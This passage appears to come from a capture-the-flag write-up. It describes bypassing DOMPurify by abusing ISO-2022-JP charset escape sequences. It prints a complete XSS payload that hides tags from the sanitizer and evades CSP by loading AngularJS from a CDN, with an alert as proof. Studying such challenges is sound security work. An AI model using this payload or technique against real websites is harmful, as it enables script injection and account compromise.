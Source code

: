 ```javascript
if (
      SAFE_FOR_XML &&
      currentNode.nodeType === NODE_TYPE.comment &&
      regExpTest(/<[/\w]/g, currentNode.data)
    ) {
      _forceRemove(currentNode);
      return true;
    }
```

At this point i've realized that, indeed, we are not parsing via the standard UTF-8. Maybe we can leverage some sequences of the ISO-2022-JP in order to create a valid tag for the browser that will skip the DOMPurify check. 

If you have read the research, you may know that the <mark style="background: #FFB86CA6;">sequence</mark> `\x1b(B` is used to switch the parsing to ASCII. Hence, something like `<style>\x1b(B<\x1b(Bimg</style>` should work. And indeed it works.
This payload will be left untouched from DOMPurify since it's considered safe. Spoiler: it's not

Now we have all we need. I should point out that there is CSP but is easily bypassable (i've used cspbypass.com in order to find the payload)

Here it is the final payload 

```html
<html>
    <head></head>
    <body></body>
    <script>

        const URL = `https://challenge-kinugawa.quiz.flatt.training/?html=`
        const back_to_ascii = `\x1b(B`
        const back_to_jp = `\x1b$B`;
        const payload = `${back_to_jp}
        <style>
            ff${back_to_ascii}<${back_to_ascii}body ng-app ng-csp>
                ${back_to_ascii}<${back_to_ascii}script src='https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.5/angular.js'>${back_to_ascii}<${back_to_ascii}/script>
                    ${back_to_ascii}<${back_to_ascii}input autofocus ng-focus=$event.composedPath()|orderBy:'[].constructor.from([origin],alert)'>
        </style>`

        open(URL+encodeURIComponent(payload),'iframe')


    </script>
</html>
```

## Conclusion

It was an amazing experience. Either by solving fantastic challenges, and collaborating with skilled hackers. 
Last but not least, i've learned a lot. Which is the most important thing to me.
